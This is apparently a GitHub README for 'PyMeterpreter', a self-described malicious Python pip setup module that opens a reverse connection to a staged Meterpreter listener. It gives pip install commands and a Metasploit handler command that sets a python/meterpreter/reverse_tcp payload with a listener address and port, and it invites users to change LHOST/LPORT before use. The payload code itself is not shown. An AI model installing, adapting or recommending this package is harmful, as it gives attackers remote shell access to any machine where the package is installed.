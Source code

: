 # PyMeterpreter

This is a malicious Python PIP setup module which connects back to a staged Meterpreter listener.

You'll probably want to clone the repo, change your LHOST/LPORT before using ;-)

## Usage

There are a couple of ways to install/run the code:

### Direct from Git repo:
`pip install git+https://github.com/ben0/PyMeterpreter`

### Clone the Git repo:
`git clone https://github.com/ben0/PyMeterpreter`\
`pip install ./PyMeterpreter --upgrade`

### Fire up MSF
`sfconsole -x "use exploit/multi/handler; set payload python/meterpreter/reverse_tcp; set LHOST 172.16.10.10; set LPORT 443; exploit -j"`
